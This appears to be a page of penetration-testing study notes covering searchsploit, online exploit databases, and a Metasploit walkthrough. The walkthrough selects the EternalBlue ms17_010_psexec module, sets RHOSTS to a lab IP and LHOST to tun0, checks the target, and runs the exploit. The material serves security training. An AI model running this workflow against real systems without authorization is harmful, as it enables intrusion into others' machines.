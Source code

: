Once we identify the services running on ports identified from our `Nmap` scan, the first step is to look if any of the applications/services have any public exploits. Public exploits can be found for web applications and other applications running on open ports, like `SSH` or `ftp`.

# Finding Public Exploits

Many tools can help us search for public exploits for the various applications and services we may encounter during the enumeration phase. One way is to Google for the application name with `exploit` to see if we get any results:

A well-known tool for this purpose is `searchsploit`, which we can use to search for public vulnerabilities/exploits for any application. We can install it with the following command:

```bash
sudo apt install exploitdb -y
```

Then, we can use `searchsploit` to search for a specific application by its name, as follows:

```bash
searchsploit openssh 7.2
```

![Pasted image 20230112205720.png](/Images/Pasted-image-20220905162154.png)
We can also utilize online exploit databases to search for vulnerabilities, like [Exploit DB](https://www.exploit-db.com), [Rapid7 DB](https://www.rapid7.com/db/), or [Vulnerability Lab](https://www.vulnerability-lab.com).

# Metasploit Primer

The Metasploit Framework (MSF) is an excellent tool for pentesters. It contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets. MSF has many other features, like:

-   Running reconnaissance scripts to enumerate remote hosts and compromised targets
    
-   Verification scripts to test the existence of a vulnerability without actually compromising the target
    
-   Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets
    
-   Many post-exploitation and pivoting tools
    

Let us take a basic example of searching for an exploit for an application we are attacking and how to exploit it. To run `Metasploit`, we can use the `msfconsole` command:

```bash
msfconsole
```

Once we have `Metasploit` running, we can search for our target application with the `search exploit` command. For example, we can search for the SMB vulnerability we identified previously:

```bash
search exploit eternalblue
```

![Pasted image 20230112205720.png](/Images/Pasted-image-20220905162254.png)

We found one exploit for this service. We can use it by copying the full name of it and using `USE` to use it, we can also use the number (0 in this case).

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the `show options` command:

```bash
show options
```

![Pasted image 20220905162354.png](/Images/Pasted-image-20220905162354.png)

Any option with `Required` set to `yes` needs to be set for the exploit to work. In this case, we only have to options to set: `RHOSTS`, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). We can set them with the `set` command:

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > check
```

Finally, we can use the `run` or `exploit` command to run the exploit:

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```